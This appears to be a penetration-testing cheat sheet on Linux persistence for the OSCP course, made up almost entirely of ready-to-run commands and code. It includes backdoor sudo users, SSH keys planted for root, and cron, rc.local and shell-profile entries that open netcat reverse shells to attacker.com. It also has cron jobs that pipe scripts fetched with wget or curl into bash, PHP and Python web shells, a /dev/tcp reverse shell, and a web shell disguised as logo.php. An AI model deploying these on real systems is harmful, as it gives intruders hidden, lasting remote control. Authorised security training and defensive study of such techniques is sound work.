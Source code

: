 # Linux Persistence Techniques

This document outlines basic methods to maintain access to Linux systems during penetration testing engagements, focusing on techniques covered in the OSCP curriculum.

## Table of Contents

- [User Account Manipulation](#user-account-manipulation)
- [SSH Backdoors](#ssh-backdoors)
- [Cron Jobs](#cron-jobs)
- [Startup Scripts](#startup-scripts)
- [Web Shells](#web-shells)
- [Additional Resources](#additional-resources)

## User Account Manipulation

### Creating New Users

```bash
# Add new user with root privileges
useradd -m -s /bin/bash backdooruser
usermod -aG sudo backdooruser
passwd backdooruser

# Add user to sudo group on Debian/Ubuntu systems
adduser backdooruser sudo

# Add user to wheel group on CentOS/RHEL systems
usermod -aG wheel backdooruser
```

### Modifying Existing Users

```bash
# Change user shell
usermod -s /bin/bash user

# Add user to sudoers
usermod -aG sudo user
echo "user ALL=(ALL:ALL) ALL" >> /etc/sudoers.d/user

# Modify user password
echo 'user:password' | chpasswd
passwd user
```

## SSH Backdoors

### Authorized Keys

```bash
# Add SSH key to authorized_keys
mkdir -p /home/user/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EA..." >> /home/user/.ssh/authorized_keys
chmod 700 /home/user/.ssh
chmod 600 /home/user/.ssh/authorized_keys
chown -R user:user /home/user/.ssh

# Add SSH key to root user
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EA..." >> /root/.ssh/authorized_keys
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys
```

### SSH Configuration Changes

```bash
# Add secondary port for SSH
echo "Port 22" >> /etc/ssh/sshd_config
echo "Port 2222" >> /etc/ssh/sshd_config
systemctl restart sshd
```

## Cron Jobs

### Persistent Cron Jobs

```bash
# System-wide cron job
echo "* * * * * root nc -e /bin/bash attacker.com 4444" >> /etc/crontab

# User cron job
(crontab -l 2>/dev/null; echo "* * * * * nc -e /bin/bash attacker.com 4444") | crontab -

# Add to cron.d directory
echo "* * * * * root nc -e /bin/bash attacker.com 4444" > /etc/cron.d/system-update
```

### Less Obvious Cron Jobs

```bash
# Using wget to fetch and execute a script
echo "*/5 * * * * root wget -q -O- http://attacker.com/script.sh | bash" >> /etc/crontab

# Using curl to fetch and execute a script
echo "*/10 * * * * root curl -s http://attacker.com/script.sh | bash" >> /etc/crontab
```

## Startup Scripts

### RC Scripts

```bash
# Add to rc.local
echo "#!/bin/bash" > /etc/rc.local
echo "nc -e /bin/bash attacker.com 4444 &" >> /etc/rc.local
echo "exit 0" >> /etc/rc.local
chmod +x /etc/rc.local
```

### Bash Profile

```bash
# Add to .bashrc for user persistence
echo "nohup nc -e /bin/bash attacker.com 4444 &" >> ~/.bashrc

# Add to global profile
echo "nohup nc -e /bin/bash attacker.com 4444 &" >> /etc/profile
```

## Web Shells

### PHP Web Shell

```php
// Simple PHP web shell (shell.php)
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

```bash
# Deploy to common web directories
cp shell.php /var/www/html/images/logo.php
# Access via: http://target/images/logo.php?cmd=id
```

### Simple Netcat Reverse Shell from Web

```php
// Simple reverse shell in PHP
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'");
?>
```

### Python Web Shell

```python
# Simple Python web shell (for CGI-enabled servers)
#!/usr/bin/python
import cgi
import subprocess

print("Content-Type: text/html\n")
form = cgi.FieldStorage()
cmd = form.getvalue('cmd')
if cmd:
    output = subprocess.check_output(cmd, shell=True)
    print("<pre>")
    print(output)
    print("</pre>")
else:
    print("<form method='POST'>")
    print("<input type='text' name='cmd'>")
    print("<input type='submit' value='Execute'>")
    print("</form>")
```

## Additional Resources

- [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [OSCP/PWK PEN-200 OSCP Course Tools](https://www.kali.org/tools/) 